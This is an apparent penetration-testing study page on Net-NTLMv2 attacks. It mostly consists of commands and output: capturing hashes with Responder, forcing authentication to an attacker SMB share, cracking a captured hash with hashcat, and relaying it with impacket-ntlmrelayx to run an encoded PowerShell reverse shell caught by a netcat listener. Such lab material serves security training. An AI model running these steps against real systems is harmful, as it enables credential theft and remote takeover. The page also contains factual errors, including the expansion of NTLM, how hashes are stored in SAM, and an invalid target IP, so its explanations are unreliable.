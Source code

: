 # NTLMv2

New Technology Network Manager v2 is, you guessed it, the updated (and more widely used) version of NTLM. It is stored as **HMAC-MD5** hash in SAM.

NTLMv2's challenge is a timestamp rather than a randomly generated number (NTLM), the timestamp is hashed with the users password and is sent as the response.

## Cracking Net-NTLMv2

### Responder

Responder includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes.

{% embed url="https://www.kali.org/tools/responder/" %}

### Start Responder

<pre class="language-powershell"><code class="lang-powershell">kali@kali:~$ ip a
...
3: tap0: &#x3C;BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 42:11:48:1b:55:18 brd ff:ff:ff:ff:ff:ff
    inet <a data-footnote-ref href="#user-content-fn-1">192.168.119.2</a>/24 scope global tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::4011:48ff:fe1b:5518/64 scope link 
       valid_lft forever preferred_lft forever

kali@kali:~$ sudo responder -I tap0 
<strong>                                         __
</strong>  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR &#x26; MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...
[+] Listening for events... 
</code></pre>

### Request Access to Non-Existent Share

We want to request access to a share that we don't have access to in order to query the authentication protocol. _<mark style="color:red;">**Note**</mark>_: **The IP we're querying is the IP of our Kali machine!**&#x20;

```powershell
C:\Windows\system32>dir \\192.168.119.2\test
dir \\192.168.119.2\test
Access is denied.
```

### Capturing NTLMv2 Hash

```
...
[+] Listening for events... 
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:
010100000000000000B050CD1777D801B7585DF5719A
CFBA0000000002000800360057004D00520001001E00570049004E002D00340
044004E004800550058004300340054004900430004003400570049004E002D
00340044004E00480055005800430034005400490043002E00360057004D005
2002E004C004F00430041004C0003001400360057004D0052002E004C004F00
430041004C0005001400360057004D0052002E004C004F00430041004C00070
0080000B050CD1777D801060004000200000008003000300000000000000...
```

### Cracking with Hashcat

We'll save the output of reponder and use Hashcat with our wordlist to crack the NTLMv2 hash.

```shell-session
kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting
...

PAUL::FILES01:1f9d4c51f6e...00000000000000:123Password123
...
```



## NTLM Relay Attack

Sometimes we obtain a Net-NTLMv2 hash but cant crack it. **If the hash we obtained is from a local administrator, we can use it to authenticate over SMB** like we do with psexec or wmiexec.

<mark style="color:red;">**IMPORTANT**</mark>: SMB Signing must be disabled to perform a relay attack!

### NTLM_relayx - Impacket_

_We can use NTLMrelayx from impacket to relay the hash over SMB._

```
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

**--no-http-server** disables the use of HTTP since we'll be using SMB manually.

**192.168.50.512** is the target. (The box we're trying to get access to)\
**powershell -enc JABjAGwAaQBl..** is the command to execute once authenticated. (Reverse shell)

### Start Listener

We will start a listener on our Attack host to catch the incoming response shell.

```
kali@kali$ nc -nvlp 8080
```

### Request Access to Non-Existent Share

Like we do with Responder, we will query our Attack host for a share to catch the Hash.

```
C:\Windows\system32>dir \\192.168.119.2\test
Access is denied.
```

#### Check Back on the NC Listener and you should have a shell! (Assuming your powershell command works)

_<mark style="color:red;">**NOTE:**</mark>_ Here are some resources for building a powershell command to be executed once the Net-NTLMv2 hash is relayed. (By Impacket)

AGAIN FOR RELAYING TO WORK WE MUST HAVE LOCAL ADMIN!&#x20;

{% embed url="https://www.revshells.com/" %}

[^1]: 
